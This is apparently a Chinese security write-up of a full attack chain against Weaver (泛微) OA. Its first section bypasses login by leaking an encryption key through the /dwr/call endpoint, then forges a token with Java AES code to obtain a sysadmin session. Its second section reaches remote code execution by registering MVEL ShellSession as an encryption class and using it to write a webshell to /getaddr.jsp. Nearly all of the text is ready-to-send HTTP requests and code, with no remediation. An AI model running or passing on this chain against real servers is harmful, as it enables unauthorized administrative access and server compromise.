 ## **0x01 登录绕过** 



### **利用/dwr/call接口读取加密key**

```
POST /dwr/call/plaincall/?callCount=1&c0-id=1&c0-scriptName=WorkflowSubwfSetUtil&c0-methodName=LoadTemplateProp&batchId=a&c0-param0=string:mobilemode&scriptSessionId=1&a=.swf HTTP/1.1
Host: xxx:xxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
```

![图片](20250701%E6%B3%9B%E5%BE%AEOA%E5%89%8D%E5%8F%B0%E7%99%BB%E5%BD%95%E7%BB%95%E8%BF%87+%E5%90%8E%E5%8F%B0%E7%BB%84%E5%90%88%E6%8B%B3RCE.assets/640.webp)



其中security.key为 5f2f28dd-db4a-45



### **调用aes加密函数**

```
import java.security.SecureRandom;
import javax.crypto.Cipher;
import javax.crypto.KeyGenerator;
import javax.crypto.spec.SecretKeySpec;
import javax.xml.bind.DatatypeConverter;

publicclass Main {
    public static String encrypt(String str, String str2) {
        try {
            KeyGenerator keyGenerator = KeyGenerator.getInstance("AES");
            SecureRandom secureRandom = SecureRandom.getInstance("SHA1PRNG");
            secureRandom.setSeed(str2.getBytes());
            keyGenerator.init(128, secureRandom);
            SecretKeySpec secretKeySpec = new SecretKeySpec(keyGenerator.generateKey().getEncoded(), "AES");
            Cipher cipher = Cipher.getInstance("AES");
            cipher.init(1, secretKeySpec);
            return DatatypeConverter.printHexBinary(cipher.doFinal(str.getBytes()));
        } catch (Exception e) {
            e.printStackTrace();
            return"";
        }
    }

    public static void main(String[] args) {
        System.out.println(encrypt("1;1;"+System.currentTimeMillis(),"5f2f28dd-db4a-45"));
    }
}
```

![图片](20250701%E6%B3%9B%E5%BE%AEOA%E5%89%8D%E5%8F%B0%E7%99%BB%E5%BD%95%E7%BB%95%E8%BF%87+%E5%90%8E%E5%8F%B0%E7%BB%84%E5%90%88%E6%8B%B3RCE.assets/640-1751418668886-39.webp)



**获取到密钥，即为下面需要用到的mToken**



### **获取 sessionKey**

```
GET /mobilemode/mobile/server.jsp?invoker=com.api.mobilemode.web.mobile.service.MobileEntranceAction&action=meta&appid=1&appHomepageId=1&mTokenFrom=QRCode&mToken=BAAD7750912407C15FBC7CA2BDA4BDDDAEACE215E26BB871CE8D171028A66A70&_ec_ismobile=true&timeZoneOffset=&a=.swf HTTP/1.1
Host: xxxx:xxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
```

### ![图片](20250701%E6%B3%9B%E5%BE%AEOA%E5%89%8D%E5%8F%B0%E7%99%BB%E5%BD%95%E7%BB%95%E8%BF%87+%E5%90%8E%E5%8F%B0%E7%BB%84%E5%90%88%E6%8B%B3RCE.assets/640-1751418668886-40.webp)

**获取到sysadmin 的sessionKey**

### **登录后台**

**将sessionKey转换为ecology_JSessionid即可登录后台**

```
GET /weaver/ImgFileDownload/a.swf?sessionkey=b20e3665-d8a8-403d-a041-0c5883626da4&a=.swf HTTP/1.1
Host: xxxx:xxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
```

### ![图片](20250701%E6%B3%9B%E5%BE%AEOA%E5%89%8D%E5%8F%B0%E7%99%BB%E5%BD%95%E7%BB%95%E8%BF%87+%E5%90%8E%E5%8F%B0%E7%BB%84%E5%90%88%E6%8B%B3RCE.assets/640-1751418668886-41.webp)

### ![图片](20250701%E6%B3%9B%E5%BE%AEOA%E5%89%8D%E5%8F%B0%E7%99%BB%E5%BD%95%E7%BB%95%E8%BF%87+%E5%90%8E%E5%8F%B0%E7%BB%84%E5%90%88%E6%8B%B3RCE.assets/640-1751418668886-42.webp)

## **0x02 后台RCE** 

### **添加方法**

```
POST /interface/outter/outter_encryptclassOperation.jsp?a=1.swf HTTP/1.1
Host: xxxx:xxx
If-None-Match: "6evu6PUo/Cz"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
If-Modified-Since: Thu, 23 Jun 2022 11:04:04 GMT
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryVnIIu
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Accept-Language: zh-CN,zh;q=0.9
Cookie: ecology_JSessionid=aaa_db33mBm_EaOGEO8bz; __randcode__=b7e3d245-5b6b-44ba-b06b-f4b5592d68dc


------WebKitFormBoundaryVnIIugCdViAmEyK3
Content-Disposition: form-data; name="operation"

add
------WebKitFormBoundaryVnIIugCdViAmEyK3
Content-Disposition: form-data; name="encryptname"

ttttaaa
------WebKitFormBoundaryVnIIugCdViAmEyK3
Content-Disposition: form-data; name="encryptclass"

org.mvel2.sh.ShellSession
------WebKitFormBoundaryVnIIugCdViAmEyK3
Content-Disposition: form-data; name="encryptmethod"

exec
------WebKitFormBoundaryVnIIugCdViAmEyK3
Content-Disposition: form-data; name="decryptmethod"

exec
------WebKitFormBoundaryVnIIugCdViAmEyK3
Content-Disposition: form-data; name="isdialog"

0
------WebKitFormBoundaryVnIIugCdViAmEyK3
Content-Disposition: form-data; name="x"; filename="x"

x
------WebKitFormBoundaryVnIIugCdViAmEyK3--
```

### ![图片](20250701%E6%B3%9B%E5%BE%AEOA%E5%89%8D%E5%8F%B0%E7%99%BB%E5%BD%95%E7%BB%95%E8%BF%87+%E5%90%8E%E5%8F%B0%E7%BB%84%E5%90%88%E6%8B%B3RCE.assets/640-1751418668886-43.webp)

### **查看添加的ID**

```
POST /api/integration/Outter/getOutterSysEncryptClassOperates?a=1.swf HTTP/1.1
Host: xxxx:xxx
If-None-Match: "6evu6PUo/Cz"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
If-Modified-Since: Thu, 23 Jun 2022 11:04:04 GMT
Content-Type: application/x-www-form-urlencoded
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Accept-Language: zh-CN,zh;q=0.9
Cookie: ecology_JSessionid=aaa_db33mBm_EaOGEO8bz; __randcode__=b7e3d245-5b6b-44ba-b06b-f4b5592d68dc
```

### ![图片](20250701%E6%B3%9B%E5%BE%AEOA%E5%89%8D%E5%8F%B0%E7%99%BB%E5%BD%95%E7%BB%95%E8%BF%87+%E5%90%8E%E5%8F%B0%E7%BB%84%E5%90%88%E6%8B%B3RCE.assets/640-1751418668887-44.webp)

**此处ID为2**

### **直接执行java代码写shell**

```
POST /interface/outter/outter_encryptclassOperation.jsp?a=1.swf HTTP/1.1
Host: xxxx:xxx
If-None-Match: "6evu6PUo/Cz"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
If-Modified-Since: Thu, 23 Jun 2022 11:04:04 GMT
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryITdrx
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Accept-Language: zh-CN,zh;q=0.9
Cookie: ecology_JSessionid=aaa_db33mBm_EaOGEO8bz; __randcode__=b7e3d245-5b6b-44ba-b06b-f4b5592d68dc


------WebKitFormBoundaryITdrxxca8L1Xo7Rq
Content-Disposition: form-data; name="operation"

test
------WebKitFormBoundaryITdrxxca8L1Xo7Rq
Content-Disposition: form-data; name="plaintext"

马子
------WebKitFormBoundaryITdrxxca8L1Xo7Rq
Content-Disposition: form-data; name="id"

2
------WebKitFormBoundaryITdrxxca8L1Xo7Rq
Content-Disposition: form-data; name="x"; filename="x"

1
------WebKitFormBoundaryITdrxxca8L1Xo7Rq--
```

### ![图片](20250701%E6%B3%9B%E5%BE%AEOA%E5%89%8D%E5%8F%B0%E7%99%BB%E5%BD%95%E7%BB%95%E8%BF%87+%E5%90%8E%E5%8F%B0%E7%BB%84%E5%90%88%E6%8B%B3RCE.assets/640-1751418668887-45.webp)

**写入进 /getaddr.jsp**